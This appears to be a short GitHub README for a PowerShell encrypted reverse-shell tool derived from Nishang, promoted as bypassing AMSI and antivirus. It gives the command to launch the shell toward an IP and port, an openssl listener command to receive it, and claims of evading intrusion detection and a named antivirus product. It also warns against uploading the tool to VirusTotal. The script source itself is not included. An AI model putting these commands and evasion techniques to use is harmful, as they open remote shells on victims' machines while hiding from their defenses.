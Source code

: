 # RevershellTCPEncrypt_BypassAMSI

This script is based on Nishang's, thanks for sharing<br>

```sh
.\rc2.ps1 192.168.1.6 443
```

```sh
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
```

This shell allows you to encrypt your C2, at the network transfer level at the transport and application layers mitigating the detection of rule anomalies of some IPs/IDs.<br>

A proof of concept was carried out in several AVs, in the photo I avoided a S0ph0s on disk and memory.

![image](https://user-images.githubusercontent.com/66162160/206824568-3d5d7e93-f0b3-4898-927a-c45afdb48882.png)

## ! Do not upload to total virus!
